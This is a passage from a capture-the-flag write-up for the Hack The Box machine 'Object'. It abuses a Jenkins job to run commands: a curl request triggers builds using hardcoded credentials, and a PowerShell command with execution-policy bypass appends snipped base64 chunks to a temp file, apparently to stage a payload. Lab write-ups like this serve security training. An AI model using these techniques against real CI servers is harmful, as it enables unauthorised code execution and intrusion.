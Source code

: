 
We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_24.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_24.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }






Our third command will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value IDogV2F<SNIP>gICAgIH0K -Encoding ASCII"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_25.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
